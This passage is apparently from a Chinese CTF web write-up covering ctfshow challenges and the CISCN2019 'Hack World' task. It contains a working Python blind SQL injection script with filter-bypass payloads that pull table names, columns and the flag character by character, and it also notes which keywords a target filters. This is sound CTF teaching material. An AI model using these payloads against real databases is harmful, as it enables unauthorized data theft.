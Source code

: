 很明显，只输出第一个字母的ascii码

所以就可以用这种方法绕过对` , `的过滤

写脚本时发现单引号也被过滤了，用十六进制就行

```py
import requests

url='http://2484e8c4-51e0-412e-98b9-ee946d347d6e.challenge.ctf.show/index.php?id='
str='0123456789qwertyuiopasdfghjklzxcvbnm}-'
flag=''
for i in range(1,666):
    for j in range(32,127):
        payload1=f"1||ascii(substr((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database())from/**/{i}/**/for/**/1))={j};#"
        payload2=f"1||ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name=0x666C6167)from/**/{i}/**/for/**/1))={j};#"
        payload3=f"1||ascii(substr((select/**/flag/**/from/**/flag)from/**/{i}/**/for/**/1))={j};#"
        r=requests.get(url+payload3)
        if("A Child's Dream of a Star"in r.text):
            flag+=chr(j)
            print(flag)
            if j=='}':
                exit()
            break
```



### [ctfshow]web14























### [CISCN2019 华北赛区 Day2 Web1]Hack World

![image-20220724162707744](D:\Typora\note\CTF\web\challenge.assets\image-20220724162707744.png)

随意fuzz一下，发现过滤了很多很多东西
`单双引号，||，&，分号，union，#基本扼杀了所有拼接查询的路`
所以就只能用一种不需要拼接的办法



#### 第一种
